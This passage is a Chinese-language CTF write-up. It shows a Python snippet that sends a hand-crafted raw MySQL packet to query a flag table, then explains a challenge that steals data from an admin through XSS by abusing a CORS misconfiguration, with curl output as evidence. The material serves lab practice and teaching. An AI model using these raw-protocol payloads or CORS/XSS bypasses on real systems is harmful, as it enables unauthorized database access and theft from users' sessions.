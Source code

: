 ```python
s.send(b'\xa3\x00\x00\x01\x85\xa6\xff\x01\x00\x00\x00\x01\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x69\x76\x34\x6e\x00\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00\x66\x03\x5f\x6f\x73\x05\x4c\x69\x6e\x75\x78\x0c\x5f\x63\x6c\x69\x65\x6e\x74\x5f\x6e\x61\x6d\x65\x08\x6c\x69\x62\x6d\x79\x73\x71\x6c\x04\x5f\x70\x69\x64\x05\x32\x37\x32\x35\x35\x0f\x5f\x63\x6c\x69\x65\x6e\x74\x5f\x76\x65\x72\x73\x69\x6f\x6e\x06\x35\x2e\x37\x2e\x32\x32\x09\x5f\x70\x6c\x61\x74\x66\x6f\x72\x6d\x06\x78\x38\x36\x5f\x36\x34\x0c\x70\x72\x6f\x67\x72\x61\x6d\x5f\x6e\x61\x6d\x65\x05\x6d\x79\x73\x71\x6c\x29\x00\x00\x00\x03\x73\x65\x6c\x65\x63\x74\x20\x66\x6c\x61\x67\x20\x66\x72\x6f\x6d\x20\x63\x74\x66\x2e\x66\x6c\x61\x67\x5f\x31\x73\x5f\x68\x65\x72\x65\x5f\x67\x6f\x74\x5f\x6d\x65\x01\x00\x00\x00\x01')

data = s.recv(1024)
while data:
    print(data)
    data = s.recv(1024)

```

***

#### Json API

![](C:\Users\40691\AppData\Roaming\Typora\typora-user-images\1557570833144.png)

![](https://upload-images.jianshu.io/upload_images/11356161-0a4054c1c61d4936.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

这道题我参考了现实中Hackerone的一个Yahoo SOP绕过漏洞

考点：

+ CORS config
+ Bypass SOP

看到题目即知需要XSS，但是Cookie是httponly的，想直接让管理员访问/flag页面你会发现返回的数据是`undefined`，为什么？跨域了

跨域方式就那几种，随便试试即可知是用了CORS头来跨域

```
$ curl http://202.119.201.199:40107 -v -H "Origin: http://example.com"
* Rebuilt URL to: http://202.119.201.199:40107/
*   Trying 202.119.201.199...
* TCP_NODELAY set
* Connected to 202.119.201.199 (202.119.201.199) port 40107 (#0)
> GET / HTTP/1.1
> Host: 202.119.201.199:40107
> User-Agent: curl/7.55.1
> Accept: */*
> Origin: http://example.com
>
< HTTP/1.1 200 OK
< Server: gunicorn/19.9.0
< Date: Sat, 11 May 2019 10:07:27 GMT
< Connection: close
< Content-Type: application/json
< Content-Length: 16
< Access-Control-Allow-Credentials: true
< Access-Control-Allow-Origin: http://iv4n.xyz
< Vary: Cookie
< Set-Cookie: session=eyJ1c2VybmFtZSI6InVzZXIifQ.XNae3w.FQImaHD3-bbuJLAkmLcM5toa4GU; HttpOnly; Path=/
<
{"status":"ok"}
* Closing connection 0
```
